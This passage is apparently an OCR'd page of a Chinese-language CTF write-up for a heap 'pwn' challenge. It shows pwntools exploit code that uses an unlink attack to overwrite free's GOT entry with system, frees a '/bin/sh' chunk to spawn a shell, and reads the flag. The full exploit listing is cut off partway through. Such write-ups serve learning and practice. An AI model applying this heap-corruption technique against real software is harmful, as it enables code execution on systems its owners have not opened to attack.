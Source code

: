    ```python
   #继续利用傀儡，hook掉free函数的got表，改为system函数地址
   payload2 = p64(elf.got["free"])     #写入strlen函数的got表
   edit(2,payload2)
   
   payload4 = p64(sys_addr)       #修改free函数的got表
   edit(4,payload4)
   # debug()
   free(5)
   p.sendline(b"cat flag")
   p.interactive()
   ```

   ![image-20240718193345268](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407181933542.png)

6. 完整的EXP:

   ```python
   from pwn import *
   from LibcSearcher import *
   context(os='linux', arch='amd64', log_level='debug')
   
   def debug():
       print(proc.pidof(p))
       pause()
   
   # p = remote("node5.buuoj.cn",28221)
   p = process("./pwn")
   libc = ELF('/home/kali/Desktop/glibc-all-in-one/libs/2.23-0ubuntu11.3_amd64/libc-2.23.so')
   elf = ELF("./pwn")
   
   def add(size):
       p.sendline(b'1')
       p.sendline(str(size))
   
   def edit(index, content):
       p.sendline(b'2')
       p.sendline(str(index).encode())
       p.sendline(str(len(content)))
       p.sendline(content)
   
   def show(index):
       p.sendline(b'4')
       p.sendline(str(index).encode())
   
   def free(index):
       p.sendline(b'3')
       p.sendline(str(index).encode())
   
   #unlink实现任意地址写，hook下strlen函数的got表用来泄漏libc，再hook一下free的got去getshell
   
   add(0x10)   #1  没用
   add(0x20)   #2  构造unlink
   add(0x80)   #3  触发unlink
   add(0x10)   #4  防止合并
   add(0x10)   #5 最后free，getshell
   edit(5,b"/bin/sh\x00")   #最后free，getshell
   
   #构造unlink
   heap_list = 0x602150
   fd = heap_list-0x18
   bk = heap_list-0x10
   content = p64(fd)+p64(bk)
   size = 0x21
   prve_size = 0x20
   ```